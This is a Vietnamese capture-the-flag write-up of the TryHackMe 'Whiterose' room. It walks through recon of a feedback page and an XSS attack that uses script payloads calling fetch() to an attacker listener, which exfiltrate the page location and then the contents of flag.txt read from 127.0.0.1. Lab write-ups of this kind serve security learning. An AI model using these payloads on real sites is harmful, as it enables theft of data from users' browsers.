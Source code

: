 # [THM] Whiterose write-up

- IP: 10.10.50.39

## Recon

Đầu tiên ta sẽ thử truy cập tới đường dẫn flag mà đề bài đã cho xem sao

![Flag fail](./img/flag-fail.png)

Hiện tại thì không có quyền để đọc flag

Truy cập với port 8080 ta nhận được trang web có 2 page `Home` và `Feedback`

![Homepage](./img/homepage.png)

Khám phá thì có vẻ homepage không có gì để ta khai thác cả

![Feedback page](./img/feedback-page.png)

Feedback page sau khi kiểm tra và thử gửi submit thì thấy có respose trả về như ảnh trên, ta có thể nghi ngờ với lỗ hổng **XSS**. Để rõ hơn ta cần tiếp tục khai thác

## Exploit

Ta sẽ tạo http server trên máy attacker để kiểm tra payload `XSS` mà ta gửi

```js
<script>fetch('http://10.21.113.26:1234/?l='+location.href)</script>
```

![Payload test](./img/payload-test.png)

Ta nhận được response như hình vậy đã xác định được chính xác page này có thể bị khai thác bởi lỗ hổng `XSS`

Khi kiêm tra với payload dưới ta không nhận lại được response nào cả 
```js
<script>
fetch('http://10.10.50.39:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Và ta có thể nhận thấy sau khi tôi gửi payload để kiểm tra thì thấy location hiện tại là `http://127.0.0.1:8080/` chứ không phải `http://10.10.50.39:8080`

Ta cần chỉnh sửa payload để get được flag 

```js
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Với payload trên nội dung file flag sẽ được lấy thông qua fetch và sau đó response trả về sẽ được chuyển thành text và cuối cùng sẽ được gửi tới máy attacker

## flag.txt
Sau khi gửi payload trên thì đã get được flag

![Flag](./img/flag.png)

![Done](./img/completed.png)

**DONE**